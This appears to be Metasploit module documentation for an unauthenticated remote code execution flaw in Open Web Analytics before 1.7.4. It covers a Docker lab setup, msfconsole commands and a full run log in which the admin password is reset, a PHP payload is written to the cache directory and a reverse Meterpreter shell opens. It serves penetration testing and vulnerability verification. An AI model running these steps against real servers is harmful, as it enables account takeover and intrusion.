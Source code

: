 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated
remote attacker to obtain sensitive user information, which can be
used to gain admin privileges by leveraging cache hashes. This occurs
because files generated with '<?php (instead of the intended "<?php sequence) aren't
handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: `docker compose up -d`
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the `docker-compose.yml` file
        - Public URL: `http://127.0.0.1/`
        - Database Host (`docker inspect <db-container>` and get `IPAddress`, e.g `172.22.0.2`)
        - Database Port: `3306`
        - Database Name: `owa`
        - Database User: `owa`
        - Database Password: `Demo12+#`
        - Continue
        - Site Domain: `http://127.0.0.1`
        - Admin name: `admin`
        - E-Mail: `admin@admin.com`
        - Password: `Demo12+#`
        - Continue

2. Start `msfconsole`
3. `use exploit/multi/http/open_web_analytics_rce`
4. `set RHOSTS 127.0.0.1`
5. `set RPORT 80`
6. `set SSL false`
7. `set LHOST 172.22.0.1` -> this needs to be bridge IP that got created with the `docker compose up -d` command
8. `check`
9. `run`

## Options
### Password

When exploiting the target, the password of the attacked user will be overwritten with this password.

### Username

The user that will be targeted with this exploit.

## Scenarios
### Version 1.7.3 using docker deployment from above with HTTP
```
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[*] 127.0.0.1:80 - The target appears to be vulnerable. Open Web Analytics 1.7.3 is vulnerable
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': ba47fd0842cfb8e0109ca34e7806b84c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 2 opened (172.22.0.1:4444 -> 172.22.0.3:47916) at 2023-03-11 17:22:04 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at http://127.0.0.1/owa-data/caches/p85iCBRq.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
meterpreter >
```

